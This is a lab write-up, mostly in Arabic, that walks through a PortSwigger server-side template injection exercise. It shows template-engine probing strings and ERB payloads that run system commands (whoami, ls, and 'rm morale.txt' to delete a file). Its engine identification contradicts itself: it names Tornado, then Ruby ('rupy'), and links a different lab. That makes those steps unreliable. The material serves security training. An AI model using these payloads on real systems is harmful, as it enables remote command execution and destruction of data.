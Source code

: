 ## Welcome, my friend. Today we will start the [2. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/2bbd92b6-33a3-4bed-88db-10df1dc6ddda)

### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي. ,ومعانا حساب لنسجل عليه ```wiener:peter```:
![image](https://github.com/user-attachments/assets/8d29ed31-8eaa-47c1-828a-7ea65c4f2abe)

### نلاحظ وجود ```Preferred name``` بالاسفل هو ده لغز التحدي.لما نتصفح اكثر في الموقع هنلاحظ بلوج بيسمحلنا نضيف اي تعليقات سوف نضيف الكود اللي بيظهر رسالة خطأ لو الثغرة موجودة:

```
${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/e416e9f9-570d-4841-8797-b3966de9e216)
### الرسالة بتوضح وجود ثغرة وان المكتبة المستخدمة tornado.

### نبدأ نحقن كود زي ده علشان نشوف هيحصل تغير ولا لا
```
/?message=${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/5b3b1844-2811-4782-ab4b-d4035f756985)

### تم نسخ النصوص من غير اي مشاكل معنى ذلك ان الاستغلال تبع مكتبة معينة وليس من ضمن مكاتب بايثون مثل jinja ممكن تكون مثلا rupy. هنجرب الكود التالي ونشوف لو في اي تغيير:

```
/?message=<%= mohamed %>
```

![image](https://github.com/user-attachments/assets/4f438eda-bc7a-4516-9443-d9ab1fccb19f)

### جميل تم ظهور خطأ يشير ان المكتبة المستخدمة هي rupy. دلوقتي ممكن نبحث عن اكواد الحقن زي موقع hacktricks:
![image](https://github.com/user-attachments/assets/95a98468-f6d9-48d8-9061-d125c1851e79)


### هنستخدم ذلك الكود:

```
/?message=<%= system("whoami") %> #Execute code
```

![image](https://github.com/user-attachments/assets/17fffaea-6acb-4e06-8a92-e5d3bf6235bc)


### تم استغلال الكود ممكن نستخدم امر ls علشان نعرف المحتوى:


```
/?message=<%= system("ls") %> #Execute code
```

![image](https://github.com/user-attachments/assets/e7cf1ae7-f845-480a-bf96-12cef31b26dd)

### علشان نحل ذلك التحدي لازم نحذف ملف ```morale.txt```. هنستخدم ذلك الكود:
```
/?message=<%= system("rm morale.txt") %> #Execute code
```

![image](https://github.com/user-attachments/assets/10fe49b9-cbdd-479d-9fc7-be87aced9902)

## وهنا تم حل اللاب يا صديقي ;)





![6563e6979e46c15f_tumblr_inline_n7kbn3iqz41scrulr](https://github.com/user-attachments/assets/327e3cab-0dca-4505-b1c4-9f9bbbbf7e77)
